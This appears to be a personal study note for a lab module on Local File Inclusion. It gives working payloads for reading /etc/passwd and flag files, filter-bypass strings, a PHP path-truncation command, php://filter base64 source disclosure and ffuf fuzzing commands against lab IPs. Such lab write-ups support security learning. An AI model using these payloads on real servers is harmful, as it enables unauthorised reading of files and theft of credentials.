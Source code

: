 # 🤽‍♀️ File Disclosure

## Local File Inclusion (LFI)

Let's see how we can exploit these vulnerabilities in different scenarios to be able to read the content of local files on the back-end server.

Imagine a web app where we can choose language ->

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

if the web application is pulling a file that is now being included in the page, we may be able to change the file being pulled to read the content of a different local file.

```
http://<SERVER_IP>:<PORT>/index.php?language=/etc/passwd
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sometimes we will need to use relatives paths and going back to root ->

```
http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/passwd
```

A more advanced LFI attack is a `Second Order Attack`. This occurs because many web application functionalities may be insecurely pulling files from the back-end server based on user-controlled parameters.

For example, a web application may allow us to download our avatar through a URL like (`/profile/$username/avatar.png`). If we craft a malicious LFI username (e.g. `../../../etc/passwd`), then it may be possible to change the file being pulled to another local file on the server and grab it instead of our avatar.

_**Using the file inclusion find the name of a user on the system that starts with "b".**_

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

_**Submit the contents of the flag.txt file located in the /usr/share/flags directory.**_

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Basic Bypasses

One common LFI filter is one that deletes substrings of (`../`), to bypass this if we use `....//` as our payload, then the filter would remove `../` and the output string would be `../` as well as `..././` or `....\/` and several other recursive LFI payloads. Furthermore, in some cases, escaping the forward slash character may also work to avoid path traversal filters (e.g. `....\/`), or adding extra forward slashes (e.g. `....////`)

Another way of bypassing would be to URL encode `../` into `%2e%2e%2f`, which may bypass the filter

<figure><img src="../../../.gitbook/assets/image (1380).png" alt=""><figcaption></figcaption></figure>

{% content-ref url="../command-injections/" %}
[command-injections](../command-injections/)
{% endcontent-ref %}

Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. Let's say we can call paths that are under the `./languages ,` we could start our payload with the approved path, and then use `../` to go back to the root directory

```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

***

some web applications append an extension to our input string (e.g. `.php`), to ensure that the file we include is in the expected extension.

In earlier versions of PHP, defined strings have a maximum length of 4096 characters

PHP also used to remove trailing slashes and single dots in path names, so if we call (`/etc/passwd/.`) then the `/.` would also be truncated, and PHP would call (`/etc/passwd`)

it is also important to note that we would also need to `start the path with a non-existing directory` for this technique to work.

```url
?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Here is a command to do that ->

```shell-session
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

***

PHP versions before 5.5 were vulnerable to `null byte injection`, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

_**The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt**_

```
http://94.237.54.205:42808/index.php?language=languages/....//....//....//....//flag.txt
```

## PHP Filters

If we identify an LFI vulnerability in PHP web applications, then we can utilize different [PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) to be able to extend our LFI exploitation

[PHP Filters](https://www.php.net/manual/en/filters.php) are a type of PHP wrappers,where we can pass different types of input and have it filtered by the filter we specify. To use PHP wrapper streams, we can use the `php://` scheme in our string, and we can access the PHP filter wrapper with `php://filter/`. We will mainly use the parameters `resource` and `read`.\
There are 4 main filters: [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)

To find php pages:

```shell-session
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php
```

If we wanted to read the code from config.php or any php file we found, we could think of doing the following:

```
http://<SERVER_IP>:<PORT>/index.php?language=config
```

But since it's not HTML it would not render anything but we could disclose their sources with the `base64` PHP filter

```url
php://filter/read=convert.base64-encode/resource=config
```

Which would give this ->

```
http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we just need to decode the code with:

```shell-session
echo 'PD9waHAK...SNIP...KICB9Ciov' | base64 -d
```

_**Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer**_

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://83.136.255.40:38460/FUZZ.php
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
http://83.136.255.40:38460/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>
